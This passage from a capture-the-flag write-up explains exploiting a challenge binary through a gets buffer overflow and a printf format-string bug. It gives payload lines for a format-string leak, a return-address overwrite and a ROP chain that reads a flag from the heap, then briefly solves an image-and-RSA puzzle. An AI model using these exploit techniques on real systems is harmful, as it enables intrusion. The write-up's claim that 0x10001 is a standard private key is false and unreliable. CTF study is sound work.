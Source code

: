 ```c
  system("./magic.sh");

  char* name = getstr("Santa: One last thing, can you tell me your name?");
  printf("\nSanta: Let me see. Oh no, this is bad, the flag vanished before i could read it entirely. All I can give you is this: %s. I am very sorry about this and would like to apologise for the inconvenience.\n", flag);
  gets("\nSanta: Can I assist you with anything else?", buffer);
  printf("\nSanta: You want me to help you with ");
  printf(buffer);
  puts("?\nSanta: I will see what I can do...");
}
```
But when searching in the process memory, you can find the flag in a chunk on the heap. Additionally there is a bufferoverflow with gets and a formatstring vulnerability. But as the formatstring leak is after the bufferoverflow it is not possible to directly use the leak. To fix this you can extend the formatstring payload to overwrite the lowest byte of the return address which causes the tellflag function to be executed a second time.
```py
payload1 = flat({0:b'%p '*50, 167:chr(0x9b).encode()})          # formatstring vuln and override lowest byte of return address to run tellflag twice
```
As i wasn't able to find a heap address in the leak, i just called the getstr function which returns a heap pointer. With the help of a add gadget and printf you can read the flag from the heap.
```py
    # rop-chain: 'pop rsi' 'buffer_address' 'pop rdi' 'buffer_address' 'getstr' 'pop rdx' 'heap offset' 'add rax, rdx' 'error+43'
    payload = flat({168:[0x2573e+libc, 0x1F690+stack, 0x240e5+libc, 0x1F690+stack, 0x139D+-0xf+function, 0x26302+libc, pack(-0x26E-0x180, 64), 0x76a7a+libc, 0x130E+function, 0x1354+function]})
```
A complete solve.py can be found [here](./16-sgf/Playtest/solve.py).

## [HV23.17] Lost Key (darkstar)
### Description
> After losing another important key, the administrator sent me a picture of a key as a replacement. But what should I do with it?    
> ![Alt text](./17-Lost-Key/key.png)
### Solution
When looking at the image, you can notice that there are two clearly out of place pixels. When looking with zsteg you can find in the meta Comment: ```Key Info: 0x10001```. This is clearly a hint to use RSA because 0x10001 is the defacto standart private key. When spliting the image in half, with the strange pixels at the end, and then decoding them to bytes, you will find p and q. And with these you can calculate the private key and n, to decrypt the flag.   

![flag](./17-Lost-Key/flag.png)  
